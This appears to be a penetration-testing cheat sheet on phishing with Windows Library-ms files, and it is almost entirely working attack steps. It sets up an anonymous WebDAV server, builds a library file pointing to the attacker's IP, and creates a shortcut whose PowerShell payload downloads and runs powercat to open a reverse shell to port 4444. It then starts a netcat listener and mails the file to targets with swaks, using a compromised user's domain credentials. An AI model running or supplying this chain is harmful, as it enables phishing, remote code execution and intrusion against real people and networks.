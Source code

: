 ### Abusing Library Files

```bash
mkdir /home/kali/webdav
```
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

Save the file below as `config.Library-ms`, make sure to sub out the URL towards the bottom for our IP:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.12.34</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

On a Windows machine right-click on the Desktop icon and select New -> Shortcut, when prompted to enter a path enter the following payload:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.12.34:8000/powercat.ps1'); powercat -c 192.168.12.34 -p 4444 -e powershell"
```
Save the link, and transfer it to our Kali machine, then into the webdav directory.

Make `powercat` available and start a listener:
```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python -m http.server 80
```
```bash
nc -nlvp 4444
```
Now distribute the library file that points to our IP (assuming we have crafted a suitably evil message body and saved it as `body.txt`):
```bash
sudo swaks -t <chump1@targetDomain.com> -t <chump2@targetDomain.com> --from <chump3@targetDomain.com> --attach @config.Library-ms --server <mail server IP> --body @body.txt --header "Subject: Super Fun Script" --suppress-data -ap
```
Nb. for the command above to succeed we'll need the domain creds of `chump3`.

